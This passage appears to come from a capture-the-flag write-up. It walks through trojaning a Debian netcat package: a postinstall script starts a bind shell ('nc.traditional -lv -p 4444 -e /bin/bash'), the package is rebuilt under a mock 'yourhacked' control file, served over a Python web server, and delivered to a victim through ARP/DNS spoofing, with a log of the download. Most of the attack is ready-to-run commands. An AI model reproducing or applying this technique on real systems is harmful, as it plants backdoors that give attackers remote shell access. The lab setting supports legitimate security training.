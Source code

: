 ```
./usr/share/doc/netcat-traditional/examples/scripts/bsh
./usr/share/doc/netcat-traditional/examples/scripts/dist.sh
./usr/share/doc/netcat-traditional/examples/scripts/irc
./usr/share/doc/netcat-traditional/examples/scripts/iscan
./usr/share/doc/netcat-traditional/examples/scripts/ncp
./usr/share/doc/netcat-traditional/examples/scripts/probe
./usr/share/doc/netcat-traditional/examples/scripts/web
./usr/share/doc/netcat-traditional/examples/scripts/webproxy
./usr/share/doc/netcat-traditional/examples/scripts/webrelay
./usr/share/doc/netcat-traditional/examples/scripts/websearch
./usr/share/man/
./usr/share/man/man1/
./usr/share/man/man1/nc.traditional.1.gz
```

Create a `postinstall` script that executes a process to listen on TCP port 4444.  Once a connection is made to port `4444`, a `bash` shell is started:

```
guest@ff953b080be3:~$ cd netcat/
guest@ff953b080be3:~/netcat$ mkdir DEBIAN
guest@ff953b080be3:~/netcat$ echo "/bin/nc.traditional -lv -p 4444 -e /bin/bash" > DEBIAN/postinstall
guest@ff953b080be3:~/netcat$ cat <<EOF> DEBIAN/control
> Package: yourhacked
> Version: 0.666
> Section: Games and Amusement
> Priority: optional
> Architecture: i386
> Maintainer: mr. robot
> Description: remotly hack your systems
> EOF
```

(re)Build the Debian package with the modified `postinstall` script:

```
guest@ff953b080be3:~$ dpkg-deb --build netcat/
dpkg-deb: building package 'yourhacked' in 'netcat.deb'.
```

Move the file to the proper directory:

```
mkdir -p pub/jfrost/backdoor
mv netcat.deb pub/jfrost/backdoor/suriv_amd64.deb     
```

Start the web server to serve the malicious Debian package:

```
python3 -m http.server 80
```

Restart the `arp` and `dns` response scripts, once executed the remote server downloads the file:

```
10.6.6.35 - - [02/Jan/2021 23:10:47] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 200 -
```
